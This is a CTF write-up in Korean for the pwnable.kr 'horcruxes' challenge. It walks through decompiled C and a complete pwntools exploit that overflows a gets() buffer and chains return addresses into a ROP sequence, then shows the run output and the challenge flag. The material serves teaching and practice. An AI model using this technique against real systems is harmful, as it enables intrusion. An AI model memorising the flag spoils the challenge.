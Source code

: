 # 문제
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and ROP it!
author: jiwon choi

ssh horcruxes@pwnable.kr -p2222 (pw:guest)

---  
# 개요  
ROP 문제라고 대 놓고 문제에서 알려주네요 우선 바이너리를 가져와봅시다. 

---
# 분석 
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ST18_4@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  alarm(0x3Cu);
  hint();
  init_ABCDEFG();
  v3 = seccomp_init(0);
  seccomp_rule_add(v3, 2147418112, 173, 0);
  seccomp_rule_add(v3, 2147418112, 5, 0);
  seccomp_rule_add(v3, 2147418112, 3, 0);
  seccomp_rule_add(v3, 2147418112, 4, 0);
  seccomp_rule_add(v3, 2147418112, 252, 0);
  seccomp_load(v3);
  return ropme();
}
```
위의 코드는 IDA를 통해 본 main 루틴입니다.

여기서 중요한 함수는 init_ABCDEFG()함수와 rompe() 함수입니다.

```c
unsigned int init_ABCDEFG()
{
  int v0; // eax@4
  unsigned int result; // eax@4
  unsigned int buf; // [sp+8h] [bp-10h]@1
  int fd; // [sp+Ch] [bp-Ch]@1

  fd = open("/dev/urandom", 0);
  if ( read(fd, &buf, 4u) != 4 )
  {
    puts("/dev/urandom error");
    exit(0);
  }
  close(fd);
  srand(buf);
  a = 0xDEADBEEF * rand() % 0xCAFEBABE;
  b = 0xDEADBEEF * rand() % 0xCAFEBABE;
  c = 0xDEADBEEF * rand() % 0xCAFEBABE;
  d = 0xDEADBEEF * rand() % 0xCAFEBABE;
  e = 0xDEADBEEF * rand() % 0xCAFEBABE;
  f = 0xDEADBEEF * rand() % 0xCAFEBABE;
  v0 = rand();
  g = 0xDEADBEEF * v0 % 0xCAFEBABE;
  result = f + e + d + c + b + a + 0xDEADBEEF * v0 % 0xCAFEBABE;
  sum = result;
  return result;

```
urandom을 시드로 a~g 변수를 각각 랜덤하게 생성합니다.
result 변수에는 a~g 변수의 합이 저장됩니다.

이후 이 값은 rompe() 함수에서 씁니다.
```c
printf("Select Menu:");
__isoc99_scanf("%d", &v2);
getchar();
if ( v2 == a )
{
  A();
}
else if ( v2 == b )
{
  B();
}
else if ( v2 == c )
{
  C();
}
else if ( v2 == d )
{
  D();
}
else if ( v2 == e )
{
  E();
}
else if ( v2 == f )
{
  F();
}
else if ( v2 == g )
{
  G();
}
```
v2 == a 를 보고 0xa인줄 알고 괜한 삽질을 했습니다. 아무래도 전역변수 같습니다.

```c
else
{
  printf("How many EXP did you earned? : ");
  gets(s);
  if ( atoi(s) == sum )
  {
    fd = open("flag", 0);
    s[read(fd, s, 0x64u)] = 0;
    puts(s);
    close(fd);
    exit(0);
  }
  puts("You'd better get more experience to kill Voldemort");
}
return 0;
```
G까지 모두 틀리면 위의 루틴을 만나게 됩니다. gets로 입력을 받고 그 값이
a~g 합과 같다면 플래그를 출력합니다.

gets함수를 사용하므로 ret를 덮어서 A() 함수부터 G() 함수까지 차례대로 호출하여 EXP를 파싱하고 더한 후 rompe() 함수를 호출하여 값을 넣어주면 플래그를 출력할 것 같습니다.

```python
from pwn import*

p = remote(0,9032)

print p.recvuntil("Select Menu:")
p.sendline("0")

print p.recvuntil("How many EXP did you earned? : ")

payload = "A"*120
payload += "\x4b\xfe\x09\x08" #a
payload += "\x6a\xfe\x09\x08" #b
payload += "\x89\xfe\x09\x08" #c
payload += "\xa8\xfe\x09\x08" #d
payload += "\xc7\xfe\x09\x08" #e
payload += "\xe6\xfe\x09\x08" #f
payload += "\x05\xff\x09\x08" #g
payload += "\xfc\xff\x09\x08" #rompe

p.sendline(payload)

sum = 0

for i in range(0, 7):
  p.recvuntil('EXP +')
  sum = sum + int(p.recvuntil(')')[:-1])
  print sum

print p.recvuntil("Select Menu:")
p.sendline("0")

print p.recvuntil("How many EXP did you earned? : ")
p.sendline(str(sum))

print p.interactive()
```
```
horcruxes@ubuntu:/tmp$ python exp.py
[+] Opening connection to localhost on port 9032: Done
Voldemort concealed his splitted soul inside 7 horcruxes.
Find all horcruxes, and destroy it!

Select Menu:
How many EXP did you earned? :
454574208
-549777161
-1673475767
-1085042747
349691327
777050481
-1270876098

Select Menu:
How many EXP did you earned? :
[*] Switching to interactive mode
Magic_spell_1s_4vad4_K3daVr4!
```
